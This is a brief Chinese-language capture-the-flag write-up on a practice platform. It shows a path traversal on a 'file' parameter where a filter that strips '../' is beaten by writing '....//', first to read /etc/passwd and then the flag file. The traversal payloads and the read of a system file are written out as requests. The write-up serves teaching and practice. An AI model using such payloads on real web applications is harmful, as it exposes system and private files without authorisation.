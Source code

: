 ### 双写绕过

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68386eb558cb8da5c81ae6d7.png)

 发现 `file` 参数是文件名形式

![](https://pic1.imgdb.cn/item/68386eeb58cb8da5c81ae6f2.png)

尝试直接读取 `/etc/passwd` 无果

```js
?file=../../../../../etc/passwd
```

![](https://pic1.imgdb.cn/item/6838704458cb8da5c81ae772.png)

双写可以绕过

```js
?file=....//....//....//....//....//etc/passwd
```

![](https://pic1.imgdb.cn/item/6838708258cb8da5c81ae79d.png)

换成 `/flag` 通关

```js
?file=....//....//....//....//....//flag
```

![](https://pic1.imgdb.cn/item/683870bf58cb8da5c81ae7bf.png)
